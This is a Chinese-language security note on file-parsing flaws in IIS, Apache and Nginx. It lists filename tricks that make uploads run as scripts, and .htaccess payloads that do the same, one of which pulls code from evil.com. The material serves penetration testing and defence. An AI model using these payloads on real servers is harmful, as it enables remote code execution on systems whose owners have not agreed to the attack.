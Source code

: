 ```yaml
---
title: 中间件文件解析漏洞
categories: web漏洞
---
```




# IIS

## IIS 6.0

- 后缀解析 `/xx.asp;.jpg`  服务器默认不解析 `;` 号及其后面的内容，相当于截断
- 目录解析 `/xx.asp/xx.jpg` (xx.asp目录下任意解析)
- 默认解析 `xx.asa` `xx.cer` `xx.cdx`
- PROPFIND 栈溢出漏洞
- RCE CVE-2017-7269

<!--more-->

## IIS 7.0-7.5 / Nginx <= 0.8.37

在Fast-CGI开启状态下，在文件路径后加上 `/xx.php` ，即 `xx.jpg/xx.php` 会被解析为php文件。



## PUT漏洞

- 开启WebDAV
- 拥有来宾用户，且来宾用户拥有上传权限
- 可任意文件上传



## Windows特性

Windows不允许空格和点以及一些特殊字符作为结尾，创建这样的文件会自动重命名，所以可以使用 `xx.php[空格]` ， `xx.php.`， `xx.php/`， `xx.php::$DATA` 上传脚本文件。



## 文件名猜解

在支持NTFS 8.3文件格式时，可利用短文件名猜解目录文件。其中短文件名特征如下：

- 文件名为原文件名前6位字符加上 `~1` ，其中数字部分是递增的，如果存在前缀相同的文件，则后面的数字进行递增。
- 后缀名不超过3位，超过部分会被截断
- 所有小写字母均转换成大写的字母
- 文件名后缀长度大于等于4或者总长度大于等于9时才会生成短文件名，如果包含空格或者其他部分特殊字符，则无视长度条件

IIS 8.0之前的版本支持短文件名猜测的HTTP方法主要包括：DEBUG、OPTIONS、GET、POST、HEAD、TRACE六种，需要安装ASP.NET。而IIS 8.0之后的版本只能通过OPTIONS和TRACE方法猜测成功，但是没有ASP.NET的限制。

这种方法的局限性在于：

- 文件夹名前6位字符带点”.”，扫描程序会认为是文件而不是文件夹，最终出现误报
- 不支持中文文件名

这种方法可以通过命令 `fsutil behavior set disable8dot3 1` 关闭NTFS 8.3文件格式的支持来修复。



# Apache

## 后缀解析

`test.php.x1.x2.x3` （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析

## .htaccess

当 `AllowOverride` 被启用时，上传启用解析规则的.htaccess

```
AddType application/x-httpd-php .jpg
```

```
php_value auto_append_file .htaccess
#<?php phpinfo();
```

```
Options ExecCGI
AddHandler cgi-script .jpg
```

```
Options +ExecCGI
AddHandler fcgid-script .gif
FcgidWrapper "/bin/bash" .gif
```

```
php_flag allow_url_include 1
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
#php_value auto_append_file https://evil.com/evil-code.txt
```

## 目录遍历

配置 `Options +Indexes` 时Apache存在目录遍历漏洞。

## CVE-2017-15715

`%0A` 绕过上传黑名单。[Apache HTTPD换行解析漏洞]([Apache HTTPD换行解析漏洞（CVE-2017-15715 - 云+社区 - 腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1676145))

## lighttpd

```
xx.jpg/xx.php
```



# Nginx

## Fast-CGI关闭

在Fast-CGI关闭的情况下， Nginx 仍然存在解析漏洞： 在文件路径(xx.jpg)后面加上 `%00.php` ， 即 `xx.jpg%00.php` 会被当做 php 文件来解析

影响以下版本

```
 Nginx 0.5.*

 Nginx 0.6.*

 Nginx 0.7 <= 0.7.65

 Nginx 0.8 <= 0.8.37
```

## Fast-CGI开启

在Fast-CGI开启状态下，在文件路径后加上 `/xx.php` ，则 `xx.jpg/xx.php` 会被解析为php文件

```
php的配置文件 php.ini 文件中开启了 cgi.fix_pathinfo

/etc/php5/fpm/pool.d/www.conf中不正确的配置security.limit_extensions，导致允许将其他格式文件作为php解析执行
```

##  CVE-2013-4547

影响nginx版本：nginx 0.8.41 ~ 1.5.6

```
a.jpg\x20\x00.php
```

## 配置错误

### 目录穿越

如果配置中存在类似 `location /foo { alias /bar/; }` 的配置时，`/foo../` 会被解析为 `/bar/../` 从而导致目录穿越的发生。

### 目录遍历

配置中 `autoindex on` 开启时，Nginx中存在目录遍历漏洞。



# 参考

[文件解析漏洞总结]([文件解析漏洞总结（IIS,APACHE,NGINX） - yokan - 博客园 (cnblogs.com)](https://www.cnblogs.com/vege/p/12444476.html))